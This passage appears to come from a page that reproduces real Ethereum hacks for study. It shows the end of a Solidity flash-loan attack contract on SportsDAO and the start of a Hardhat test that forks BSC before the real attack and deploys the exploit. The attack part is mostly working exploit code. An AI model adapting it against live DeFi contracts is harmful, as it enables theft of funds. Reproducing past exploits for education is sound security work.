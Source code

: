     <span style="color:rgb(142, 144, 140); font-weight:400;">// Swap all our sDAO for BUSD</span>
    path[<span style="color:rgb(245, 135, 31); font-weight:400;">0</span>] = address(sdao);
    path[<span style="color:rgb(245, 135, 31); font-weight:400;">1</span>] = address(busd);

    router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
      sdao.balanceOf(address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>)),
      <span style="color:rgb(245, 135, 31); font-weight:400;">0</span>,
      path,
      address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>),
      block.timestamp * <span style="color:rgb(245, 135, 31); font-weight:400;">5</span>
    );

    <span style="color:rgb(142, 144, 140); font-weight:400;">// Still have a bit of BUSD-sDAO LP tokens left in this contract. Can be</span>
    <span style="color:rgb(142, 144, 140); font-weight:400;">// swapped back to BUSD and sDAO tokens using the router&#x27;s</span>
    <span style="color:rgb(142, 144, 140); font-weight:400;">// `removeLiquidity()` function. Left as an exercise for the reader.</span>

    <span style="color:rgb(142, 144, 140); font-weight:400;">// Return the BUSD we flash loaned</span>
    busd.transfer(address(flashLoaner), <span style="color:rgb(245, 135, 31); font-weight:400;">500</span> ether);
  }
}</code></pre>

[sportsdao_attack.test.ts](https://github.com/farazsth98/real-world-ethereum-hacks-remastered/blob/master/test/sportsdao_attack/sportsdao_attack.test.ts):

```ts
import { expect } from 'chai';
import { Contract, Signer } from 'ethers';
import { ethers } from 'hardhat';
import { getAbi } from '../utils/abi';
import { forkFrom } from '../utils/fork';

describe('SportsDAO Exploit', async () => {
  let attacker: Signer;
  let attackerContract: Contract;
  let busdContract: Contract;

  const BUSD_ADDRESS = '0x55d398326f99059fF775485246999027B3197955';

  before(async () => {
    // One block before the attack occurred.
    // Txn: https://bscscan.com/tx/0xb3ac111d294ea9dedfd99349304a9606df0b572d05da8cedf47ba169d10791ed
    await forkFrom(23241440);

    // Get an attacker EOA that we can use
    [attacker] = await ethers.getSigners();

    // Deploy the attacker script
    attackerContract = await (
      await ethers.getContractFactory('SportsDAOAttack', attacker)
    ).deploy();

    // NOTE: The code below is used for testing purposes so our flash loan
    // always gets repaid when testing the unfinished exploit.
    //
    // Mint a bunch of BUSD to ourselves
    const busd_abi = await getAbi('abis/BSC-USDABI.txt');
    busdContract = await ethers.getContractAt(busd_abi, BUSD_ADDRESS);

    /*const impersonated = await ethers.getImpersonatedSigner(
      '0xf68a4b64162906eff0ff6ae34e2bb1cd42fef62d',
    );
```